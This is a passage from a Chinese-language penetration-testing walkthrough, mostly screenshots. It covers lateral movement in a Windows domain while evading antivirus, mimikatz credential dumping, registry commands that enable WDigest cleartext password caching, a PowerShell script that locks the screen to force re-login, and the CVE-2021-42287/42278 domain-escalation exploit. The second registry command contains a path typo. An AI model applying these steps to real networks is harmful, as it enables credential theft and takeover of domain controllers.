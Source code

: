 查看网卡的配置，当前是存在域环境的，然后也存在第二块网卡，添加路由：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YA5zka25tMtnM1ibxbQ8taD6cK5svaYsBzrymEe0Gx1kS8zXeK5UUicRQ/640?wx_fmt=png)

使用命令查找域控制器的 IP，由于存在火绒，需要谨慎操作，不然 session 会断掉：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6Ymbiaxam3EbzceyxZjrDN1O1024J1lNEtU4YcU6R4Cj8wDOC9ribB4dqg/640?wx_fmt=png)

当前进程中，也是存在域用户的，存在域用户就可以使用域提权漏洞获取域控制器的权限：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YvMT3S7yyovibOKguGoVaolf1OlQGyJBqntSn8NabNME6CkZtVZ1ep5Q/640?wx_fmt=png)

使用`mimikatz`的`creds_all`命令抓取密码 ，但是没有明文密码。使用这个命令并未拦截：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YozE1MD235KPj6LMfAr0XZzRbXW6Yfd2lpGrHnLTlDDGhTPpibU87kwA/640?wx_fmt=png)

由于是 win10 系统，微软在 windows 2012 之后就打了补丁 kb2871997，需要修改注册表抓取密码。第一条是开启，第二条是关闭：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg add HKLMS\YSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

修改注册表之后，需要重启或者管理员重新登录才能抓取明文密码，这里可以使用脚本让其锁屏

lock.ps1

```
Function Lock-WorkStation {
$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@
$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
$LockWorkStation::LockWorkStation() | Out-Null
}
Lock-WorkStation
```

这样就抓取到了明文密码：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YmHh7icxib2VFqHnwLZg7ibo9Str8UF79z0CJ29wWuWtzF2fgCsh4113ew/640?wx_fmt=png)

对域控 IP 进行端口扫描，开放的`88，445，135`端口：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YdiamWJHOFNHlV0ycY415BYqGN68UicEDkxfiaCib0ZgLhuMMPiaURBpJqRA/640?wx_fmt=png)

**3.3 域提权 CVE-2021-42287/CVE-2021-42278**
-----------------------------------------

使用 py 脚本，填写 "域 / 域用户: 域密码"，成功获取到域控机器的权限：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YBn0Xic7JcRvsY2B6nXY5rf7VACsROs5xR3oW8iaLup9BHBrY1zicia7RGw/640?wx_fmt=png)
